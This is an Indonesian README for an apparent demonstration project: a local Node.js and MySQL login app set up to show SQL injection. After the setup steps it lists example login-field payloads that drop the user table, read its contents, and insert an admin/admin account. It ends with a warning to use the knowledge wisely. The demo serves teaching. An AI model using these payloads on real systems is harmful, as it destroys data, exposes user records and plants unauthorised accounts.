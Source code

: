 # PRE-REQUISITE

- nodejs terinstall
- database mysql terinstall
- extension live server terinstall di code editor (aku pakai vscode)

# INSTALL DEPENDENCY

- buka terminal / command prompt
- lakukan perintah `npm install`
- import database ddos_test.sql ke mysql

# RUN SERVER

- buka terminal / command prompt
- lakukan perintah `npm run dev`
- pastikan port 3000 terbuka (running)

# RUN CLIENT

- masuk ke browser
- ketik `localhost:3000/login`

## CONTOH FIELD INPUT UNTUK MELAKUKAN SERANGAN SQL INJECTION

<!-- ini untuk menghapus table -->

- ### drop tabel
  email: `'; DROP TABLE user; --`
  password: `'; DROP TABLE user; --`

<!-- ini untuk melihat isi table -->

- ### melihat isi tabel
  email: `'; SELECT _ FROM user; --`
  password: `'; SELECT _ FROM user; --`

<!-- ini untuk menambahkan data ke table -->

- ### memasukan data
  email: `'; INSERT INTO user (email, password) VALUES ('admin', 'admin'); --`
  password: `'; INSERT INTO user (email, password) VALUES ('admin', 'admin'); --`

# NOTE!!!

- ### ini hanyalah demonstrasi
- ### tolong gunakan ilmu ini dengan bijak

- ### jangan sembarang melakukan serangan sql injection

### jika ada pertanyaan bisa japri ke watsapp/instagram ("@as.sidik\_")

# TERIMAKASIH SEMOGA BERMANFAAT :(
